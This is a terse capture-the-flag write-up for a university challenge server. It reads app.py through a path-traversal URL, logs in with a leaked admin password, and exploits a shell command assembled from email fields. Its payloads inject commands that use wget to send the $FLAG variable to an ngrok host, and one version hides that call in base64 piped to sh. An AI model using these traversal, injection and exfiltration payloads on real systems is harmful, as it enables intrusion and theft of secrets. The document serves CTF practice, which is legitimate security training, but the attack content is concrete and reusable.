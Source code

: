 url: http://cyberchallenge.disi.unitn.it:50000/image/?filename=....//....//....//app/app.py

get content of app.py

login as admin:
admin:MegaComplicatedPasswordYouWillNeverGuessThis!

line 335: command = f'echo "{message}" | mail -s "{subject}" "{to}"'
Sending flag" &&  | wget "http://17d8-193-205-210-46.ngrok-free.app?flag=$FLAG; echo "



# Steps for first flag
1. start the server
2. get the source code of app.py
3. login as admin
4. start local server to receive the flag
5. send the email with the crafted message to attacker server to get the flag


# Steps for second flag
1. same as before but command changed to this:
command = "; echo d2dldCAtcU8tICJodHRwOi8vMTdkOC0xOTMtMjA1LTIxMC00Ni5uZ3Jvay1mcmVlLmFwcD9mbGFnPSRGTEFHIg== | base64 -d | sh; echo "

the base64 is this:
wget -qO- "<ngrok-url>?flag=$FLAG

